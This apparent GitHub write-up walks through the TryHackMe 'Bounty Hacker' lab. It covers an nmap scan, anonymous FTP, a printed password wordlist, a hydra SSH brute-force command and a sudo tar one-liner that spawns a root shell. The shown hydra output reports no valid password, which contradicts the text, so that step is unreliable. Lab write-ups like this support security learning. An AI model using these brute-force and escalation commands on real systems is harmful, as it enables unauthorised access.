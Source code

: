 # Bounty Hunter
![9ad38a2cc31d6ae0030c888aca7fe646](https://user-images.githubusercontent.com/80511498/147251011-a47f9804-889c-483b-8e56-1bb0964e11e0.jpeg)

tryhackme - bounty hacker [easy] https://tryhackme.com/room/cowboyhacker

## NMAP SCAN
*here is a nmap scan of the machine*
nmap command :- nmap -A http:// <IP_Address>
___
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.33.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   22.96 ms  10.17.0.1
2   ... 4
5   145.37 ms 10.10.0.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
___
 
*we can see in the nmap result that ftp and ssh is open* 
*firstly im going to try ftp into the machine*

## FTP results
*The FTP is accessible try login with anonymous.
command :- ftp <IP_Address> 
when asked for user enter anonymous*

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>

*get the files locks.txt and task.txt they are needed in further enumeration*
___
*task.txt*
in task.txt we found a user (lin)
___
$ cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
___
locks.txt
this look's like a wordlist so we will use it for bruteforce

*$ cat locks.txt* 
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e

---

## HYDRA
**trying to brute force ssh using hydra**
now we have the user name and we will use the wordlist locks.txt to brute force
command :- hydra -l lin -P locks.txt  <IP_Address> ssh

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 21:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ftp://10.10.0.198:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39

we found the password and login via ssh
we see the user flag 
we just cat the user flag 
user.txt - THM{userflag}
___

### Priv Sec
now we need to escalate our privilege
we can exploit  lin's sudo privilege
command :- sudo -l
___
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
___

*i searched more on tar sudo privilege escaltion and found this*


just run the following command 
command :- sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![68747470733a2f2f692e696d6775722e636f6d2f41397a70647a6e2e706e67](https://user-images.githubusercontent.com/80511498/147251386-5d178b8c-1a21-4590-90d1-fde988fe1ecc.png)


now we have a root access you can see by typing :- sudo -l
![68747470733a2f2f692e696d6775722e636f6d2f633845557361732e706e67](https://user-images.githubusercontent.com/80511498/147251202-77aa7dce-db3a-4829-a758-fba7623e3173.png)

cd into /root to get to the root flag
___


